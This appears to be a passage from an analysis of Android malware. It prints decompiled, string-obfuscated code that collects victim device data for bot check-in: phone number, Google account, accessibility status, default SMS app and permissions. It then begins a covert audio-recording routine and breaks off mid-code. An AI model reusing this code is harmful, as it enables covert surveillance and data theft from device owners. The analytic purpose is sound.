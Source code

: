 ```cs
 try {  // DM
            jSONObject0.put(jwozx0.a("Y2NmNQ=="), s2);  // DM
            jSONObject0.put(jwozx0.a("YzlmYw=="), jwozx0.a("ZTZjZDMwYTg="));  // null
                                                                              // AD
            jSONObject0.put(jwozx0.a("Y2FmNA=="), i.battary_percentage(context0));  // BL
            jSONObject0.put(jwozx0.a("ZGNlZg=="), jwozx0.a.sharedpref(context1, c0.af));  // TW
            String s3 = jwozx0.a("ZGJmOQ==");  // SA
            String phone_num = i.s(this) ? "Yjk=" : "Yjg=";  // 0
                                                             // 1
            String s5 = jwozx0.a(phone_num);
            jSONObject0.put(s3, s5);
            jSONObject0.put(jwozx0.a("ZGJlOA=="), jwozx0.a.sharedpref(context1, c0.ar));  // SP
            jSONObject0.put(jwozx0.a("ZGJlYg=="), i.u(context0));  // SS
            jSONObject0.put(jwozx0.a("YzRmZA=="), Locale.getDefault().getLanguage());  // LE
            String s6 = jwozx0.a("ZGJlMQ==");  // SY
            String phone_num = i.accessibility_status(context1, ojfiq.class) ? "Yjk=" : "Yjg=";  // 0
                                                                                                // 1
            String s8 = jwozx0.a(phone_num);
            jSONObject0.put(s6, s8);
            jSONObject0.put(jwozx0.a("ZGJmNQ=="), i.default_sms_pkg(this));  // SM
            jSONObject0.put(jwozx0.a("YzFmYw=="), s1);  // ID
            jSONObject0.put(jwozx0.a("YzFlYg=="), jwozx0.a.sharedpref(context1, c0.ae));  // IS
            String s9 = jwozx0.a("YzZlYQ==");  // NR
            String phone_num = context1.checkCallingOrSelfPermission(jwozx0.a.a.p) == 0 ? ((TelephonyManager)context1.getSystemService("phone")).getLine1Number() : "";
            jSONObject0.put(s9, phone_num);
            jSONObject0.put(jwozx0.a("Y2ZmOQ=="), i.google_acc(this));  // GA
            jSONObject0.put(jwozx0.a("ZDhlYg=="), i.check_permission(jwozx0, c0.q[0]));  // PS
            jSONObject0.put(jwozx0.a("ZDhmYg=="), i.check_permission(jwozx0, c0.q[1]));  // PC
            jSONObject0.put(jwozx0.a("ZDhlOA=="), i.check_permission(jwozx0, c0.q[2]));  // PP
            jSONObject0.put(jwozx0.a("ZDhmNw=="), i.check_permission(jwozx0, c0.q[3]));  // PO
        }
        catch(JSONException unused_ex) {
            jwozx0.a.a(s, jwozx0.a("Y2RlYTBlOGJlYzc2NGIwNjg2ODI1YjcwNzYwYzU4ZTRmNWZhYWRjMg=="));  // ERROR JSON CHECK BOT
        }
```


# Recording audio

The malware has the ability to record audio without the knowledge of the user. 

```cs
protected void onHandleIntent(Intent intent0) {
        try {  // tick
            int v = Integer.parseInt(intent0.getStringExtra(this.a("ZmNkMTNmYWY=")));  // tick
            String s = intent0.getStringExtra(this.a("ZTZkOTMxYTE="));  // name
            if(v > 0 || v == -1) {
                String s1 = new SimpleDateFormat(this.a("YzVmNTcxYTBkYTdiNzgyY2IwYjUyNDdiNzY3Mzc2YzJlZmNiOTE="), Locale.US).format(Calendar.getInstance().getTime());  // MM-dd-yyyy_HH:mm:ss
                this.d = this.getExternalFilesDir(null) + (this.a("YTc=") + s + this.a("ZDc=") + s1 + this.a("YTZkOTMxYjY="));  // .amr
                                                                                                                                // _
                                                                                                                                // /
                this.b.a(this.a("Y2VmMTEwODE5ZTA0NDQxNg=="), this.d);  // FILE REC
                this.b.a(this.a("ZGNkMTMxYTE="), String.valueOf(v));  // Time
                String s2 = this.d;
                MediaRecorder mediaRecorder0 = new MediaRecorder();
```